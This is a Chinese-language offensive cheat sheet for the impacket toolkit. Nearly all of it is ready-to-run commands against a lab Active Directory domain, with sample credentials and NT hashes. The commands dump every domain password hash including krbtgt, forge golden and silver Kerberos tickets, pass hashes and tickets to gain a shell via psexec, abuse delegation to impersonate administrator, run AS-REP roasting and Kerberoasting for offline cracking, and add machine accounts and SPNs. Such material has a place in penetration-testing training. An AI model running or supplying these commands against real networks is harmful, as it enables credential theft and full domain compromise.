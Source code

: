 # 域渗透工具推荐：impacket

### secretsdump.py：获取域内用户的哈希

```
# 获取域内所有用户的 Hash。
python3 secretsdump.py HACK.com/administrator:p-0p-0p-0@192.168.72.21

# 获取域内指定 krbtgt 用户的 Hash。
python3 secretsdump.py HACK.com/administrator:p-0p-0p-0@192.168.72.21 -just-dc-user HACK/krbtgt

# 使用卷影复制服务 volume shadow copy （VSS）导出域内所有哈希。
python3 secretsdump.py HACK.com/administrator:p-0p-0p-0@192.168.72.21 -use-vss
```

### ticketer.py：离线生成票据

```
# 离线生成 tgt 黄金票据
# 这里输入的凭据是 krbtgt 的凭据，因为他能签发其他用户的 tgt。
python3 ticketer.py -user krbtgt -domain HACK.com -nthash 58d7afab7f5f7ca0d4a6295ada00fd8e -dc-ip 192.168.72.21 -domain-sid S-1-5-21-2992640285-1035252920-1077850616 administrator

# 离线生成 st 服务票据（白银票据）。
# 需要知道目标服务账户的哈希值，例如我们访问 cifs/DC01.HACK.com，就需要知道 DC01$ 账户的哈希。
python3 ticketer.py -user DC01$ -domain HACK.com -nthash 56d59915d746f4f412d75113a21d33fb -dc-ip 192.168.72.21 -domain-sid S-1-5-21-2992640285-1035252920-1077850616 -spn cifs/DC01.HACK.com administrator

# ptt 票据攻击
python3 psexec.py DC01.HACK.com -target-ip 192.168.72.21 -no-pass -k
```

![image-20250319102915210](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%B7%A5%E5%85%B7%E4%BD%BF%E7%94%A8/images/image-20250319102915210.png)

### getTGT.py：获取 tgt

```
# 输入账户凭据
python3 getTGT.py hack.com/administrator -no-pass -hashes 00000000000000000000000000000000:9099d68602a60f007c227c4fa95fada6 -dc-ip 192.168.72.21 -debug
```

![image-20250319104817251](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%B7%A5%E5%85%B7%E4%BD%BF%E7%94%A8/images/image-20250319104817251.png)

### getST.py：获取 st

```
# PTH 获取 st
python3 getST.py hack.com/administrator -no-pass -hashes 00000000000000000000000000000000:9099d68602a60f007c227c4fa95fada6 -spn cifs/DC01.HACK.com -dc-ip 192.168.72.21

# 使用 tgt 获取 st
export KRB5CCNAME=administrator.ccache
python3 getST.py hack.com/administrator -no-pass -spn cifs/DC01.HACK.com -dc-ip 192.168.72.21

# 添加委派
python3 rbcd.py HACK.com/administrator -delegate-from machine$ -delegate-to WIN10-01$ -no-pass -hashes 00000000000000000000000000000000:9099d68602a60f007c227c4fa95fada6 -dc-ip 192.168.72.21 -debug -action write

# 使用委派获取 st
python3 getST.py hack.com/machine$:p-0p-0p-0 -spn cifs/WIN10-01.HACK.com -dc-ip 192.168.72.21 -impersonate administrator
```

![image-20250319105046280](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%B7%A5%E5%85%B7%E4%BD%BF%E7%94%A8/images/image-20250319105046280.png)

![image-20250319115911187](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%B7%A5%E5%85%B7%E4%BD%BF%E7%94%A8/images/image-20250319115911187.png)

![image-20250319120112516](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%B7%A5%E5%85%B7%E4%BD%BF%E7%94%A8/images/image-20250319120112516.png)

### lookupsid.py：获取域的 sid

```
# 暴力枚举 sid 映射。
python3 lookupsid.py hack.com/deandean:p-0p-0p-0@192.168.72.21 -domain-sids

# 如果目标域的 guest 账户没有设置账户已禁用，则可以使用 guest 枚举域用户。
python3 lookupsid.py hack.com/guest@192.168.72.21 -target-ip 192.168.72.21 -no-pass -domain-sids 
```

![image-20250319121649584](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%B7%A5%E5%85%B7%E4%BD%BF%E7%94%A8/images/image-20250319121649584.png)

### smbclient.py：访问 smb 服务

```
# 输入凭据访问 smb 服务。
python3 smbclient.py hack.com/deandean:p-0p-0p-0@192.168.72.21 -dc-ip 192.168.72.21
```

### samrdump.py：枚举域用户

```
# 需要一个域内凭据。
python3 samrdump.py hack.com/deandean:p-0p-0p-0@192.168.72.21 -csv
```

![image-20250319160141904](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%B7%A5%E5%85%B7%E4%BD%BF%E7%94%A8/images/image-20250319160141904.png)

### addcomputer.py：增加机器账户/修改机器账户密码

两种方式，一种是使用 SAMR 协议，一种是使用 LDAPS 协议。

```
# SAMR
python3 addcomputer.py -computer-name 'machine' -computer-pass 'p-0p-0p-0' -dc-ip 192.168.72.21 'HACK.com/deandean:p-0p-0p-0' -method SAMR

# LDAPS
python3 addcomputer.py -computer-name 'machine' -computer-pass 'p-0p-0p-0' -dc-ip 192.168.72.21 'HACK.com/deandean:p-0p-0p-0' -method LDAPS

# 修改密码加上 -no-add 参数即可。
python3 addcomputer.py -computer-name 'COMP1' -no-add -computer-pass 'p-0p-0p-0' -dc-ip 192.168.72.21 'HACK.com/deandean:p-0p-0p-0' -method SAMR


Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
[*] Successfully set password of COMP1$ to p-0p-0p-0.
```

### GetNPUsers.py：批量请求不需要预认证的 tgt

用于AS-REP Roasting 攻击。

```
# 枚举域用户
python3 lookupsid.py hack.com/guest@192.168.72.21 -target-ip 192.168.72.21 -no-pass -domain-sids

# 打印域用户
cat users.txt | grep User | awk -F '\' '{print$2}' | awk -F '(' '{print$1}'
```

![image-20250319161638148](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%B7%A5%E5%85%B7%E4%BD%BF%E7%94%A8/images/image-20250319161638148.png)

```
# 请求文件中所有用户的 tgt，如果该用户设置了"不需要 kerberos 预身份验证"，那么它将返回此用户的 tgt，此脚本提取出 tgt 的  Login Session Key 进行离线爆破烤票攻击。

python3 GetNPUsers.py -usersfile users.txt -no-pass -dc-ip 192.168.72.21 hack.com/guest

# 导出之后，使用 hashcat 进行离线烤票。
```

![image-20250319162028529](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%B7%A5%E5%85%B7%E4%BD%BF%E7%94%A8/images/image-20250319162028529.png)

### GetUserSPNs.py：批量请求指定用户 spn 的 st

用于 Kerberoasting 攻击。

```
# 使用此脚本可以批量请求 spn，如果你指定一个包含用户名文件，他将请求你指定的用户下的 spn 的 st。
# 此脚本需要提供域凭据。
# 如果使用 -outputfile 导出到文件，他将保存为 hashcat 可破解的格式。

python3 GetUserSPNs.py hack.com/deandean:p-0p-0p-0 -dc-ip 192.168.72.21 -usersfile users.txt -request -outputfile hash.txt

# 导出之后，使用 hashcat 进行离线烤票。
```

### ticketConverter.py：票据格式转换

```
.ccache 后缀 和 .kirbi 后缀格式的票据进行相互转换。

python3 ticketConverter.py administrator.ccache administrator.kirbi
python3 ticketConverter.py administrator.kirbi administratork.ccache
```

### addspn.py：查询、新增、删除 spn

```
# 新增 spn 需要域管理员权限。
# 删除 spn 只需要对目标属性有修改的权限即可。
# 此脚本是 krbrelayx 的，不是 impacket 的。

# 查询 spn 
python addspn.py -q -u 'hack.com\deandean' -p 'p-0p-0p-0' -target '192.168.72.21' -t 'WIN10-02$' 

# 删除指定 spn
python addspn.py -r -u 'hack.com\deandean' -p 'p-0p-0p-0' -target '192.168.72.21' -t 'WIN10-02$' -s 'HOST/WIN10-02' 

# 添加 spn
python addspn.py -a -u 'hack.com\administrator' -p 'p-0p-0p-0' -target '192.168.72.21' -t 'WIN10-02$' -s 'HOST/WIN10-02'

# 清空 spn
python addspn.py -c -u 'hack.com\deandean' -p 'p-0p-0p-0' -target '192.168.72.21' -t 'WIN10-02$'
```
